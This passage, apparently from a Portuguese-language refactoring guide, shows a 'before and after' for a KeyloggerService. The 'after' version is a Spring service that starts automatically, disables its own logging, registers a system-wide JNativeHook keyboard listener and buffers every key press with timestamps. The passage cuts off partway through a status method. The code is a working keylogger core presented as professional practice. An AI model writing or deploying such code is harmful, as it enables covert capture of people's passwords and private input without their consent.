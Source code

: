 ### Exemplo 3: KeyloggerService → JNativeHook

**Antes (Atual):**
```java
public CompletableFuture<KeyloggerStatus> getStatus() {
    // Read from /tmp/.keylogger_status
}
```

**Depois (Profissional):**
```java
@Service
public class JNativeKeyloggerService implements NativeKeyListener {
    
    private final ConcurrentLinkedQueue<KeyEvent> keyBuffer = 
        new ConcurrentLinkedQueue<>();
    
    private final AtomicLong eventsProcessed = new AtomicLong(0);
    
    @PostConstruct
    public void startKeylogging() throws NativeHookException {
        // Set logger level
        Logger logger = Logger.getLogger(GlobalScreen.class.getPackage().getName());
        logger.setLevel(Level.OFF);
        
        // Register native hook
        GlobalScreen.registerNativeHook();
        GlobalScreen.addNativeKeyListener(this);
        
        // Start processing thread
        startEventProcessor();
    }
    
    @Override
    public void nativeKeyPressed(NativeKeyEvent e) {
        KeyEvent event = new KeyEvent(
            System.currentTimeMillis(),
            NativeKeyEvent.getKeyText(e.getKeyCode()),
            e.getModifiers()
        );
        keyBuffer.offer(event);
    }
    
    private void startEventProcessor() {
        ExecutorService executor = Executors.newSingleThreadExecutor();
        executor.submit(() -> {
            while (true) {
                KeyEvent event = keyBuffer.poll();
                if (event != null) {
                    processKeyEvent(event);
                    eventsProcessed.incrementAndGet();
                } else {
                    Thread.sleep(10);
                }
            }
        });
    }
    
    public KeyloggerStatus getStatus() {
        KeyloggerStatus status = new KeyloggerStatus();
        status.eventsProcessed = eventsProcessed.get();
        status.bufferSize = keyBuffer.size();
        status.status = "running";
        return status;
```